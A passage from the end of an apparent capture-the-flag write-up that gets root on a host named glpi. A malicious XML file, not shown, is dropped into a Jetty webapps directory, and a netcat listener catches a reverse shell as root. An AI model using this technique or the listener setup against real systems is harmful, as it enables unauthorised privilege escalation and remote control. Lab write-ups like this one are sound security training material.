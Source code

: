 - Add xml exploit to the run.xml file.

```sh
betty@glpi:/opt/jetty/jetty-base/webapps$ nano run.xml
betty@glpi:/opt/jetty/jetty-base/webapps$ ls
run.xml
betty@glpi:/opt/jetty/jetty-base/webapps$ 
```

- Wait for reverse connection.

```sh
betty@glpi:~$ /usr//bin/nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 127.0.0.1 34940
bash: cannot set terminal process group (1254): Inappropriate ioctl for device
bash: no job control in this shell
root@glpi:/opt/jetty/jetty-base# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).